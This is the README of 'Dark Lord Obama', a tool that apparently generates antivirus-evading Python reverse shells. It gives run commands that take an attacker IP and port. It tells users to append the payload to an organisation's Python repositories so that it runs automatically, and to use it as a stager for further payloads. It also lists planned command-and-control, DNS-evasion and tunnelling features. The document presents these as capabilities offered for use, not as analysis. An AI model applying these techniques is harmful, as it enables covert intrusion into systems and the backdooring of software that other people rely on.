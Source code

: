 ![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

# Current usage

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

Currently it only works on targets that run Python. A cross-compilable and transpilable edition is in the works after DEFCON and after I pass the OSCP.

`python darklordobama-generator.py <LHOST> <LPORT>`

# Incoming features

1. Cross-compilation - Ideal targeted platforms, Android, iOS, MacOS (already possible with py2app), ARM/MIPS based routers and IoT devices
2. C2 Server - Encrypts a whole TLS 1.3 certificate within the payload, and attempts to negotiate a TLS session with the Command-and-Control Server (the payload does not have the key or IV, the server sends a CHALLENGE string containing it for the payload to decrypt the TLS cert), if a IP or host fails to provide the correct TLS certificate (handshake), the C2 Server immediately issues a permaban rule on IPTables (DROP packets)
3. "Steroid Injections" - Re-writable sections of memory occupied by the payload using statically defined functions, built in reverse-SSH tunnels, and SocketServer. Instantly grant your payload new abilities without having to re-touch the disk (it modifies a function that is holding a 5,000 byte buffer of \x90 NOP instructions and then lets you CALL it)
4. Dynamic DNS Support - With built-in dns resolver to ensure that you always use public DNS (1.1.1.1 or 8.8.8.8) to evade corporate DNS whitelisting
5. C2_Rotate Function - Using Ansible, Tensorflow, and Python, automate the spinning up of brand new Command-and-Control Servers, and immediately push a mass-update on all current bots to "rotate" to the new VPS. Requires Dynamic DNS subscription.
6. Built-in SSH client - Allow your payloads to create reverse SSH tunnels to tunnel out of restrictive firewalls (like a home NATed router)
7. ASM Interpreter - Run x86 Assembly Instructions or launch object .o files
